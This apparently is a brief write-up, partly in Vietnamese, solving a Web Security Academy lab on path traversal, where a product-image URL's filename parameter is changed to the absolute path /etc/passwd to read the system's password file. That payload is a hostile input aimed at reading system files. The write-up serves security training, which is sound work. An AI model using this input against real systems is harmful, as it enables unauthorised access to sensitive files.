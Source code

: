 # **Lab: File path traversal, traversal sequences blocked with absolute path bypass**

>  This lab contains a path traversal vulnerability in the display of product images.  
>  The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.  
>  To solve the lab, retrieve the contents of the /etc/passwd file.  

# **Solution**

Có URL ảnh:

```
https://0aa500d203f888ba800b447800e400fb.web-security-academy.net/image?filename=34.jpg
```

Giờ đổi tên file name. Dùng đường dẫn tuyệt đối để truy xuất file `/etc/passwd`:

```
filename=/etc/passwd
```

Done~~~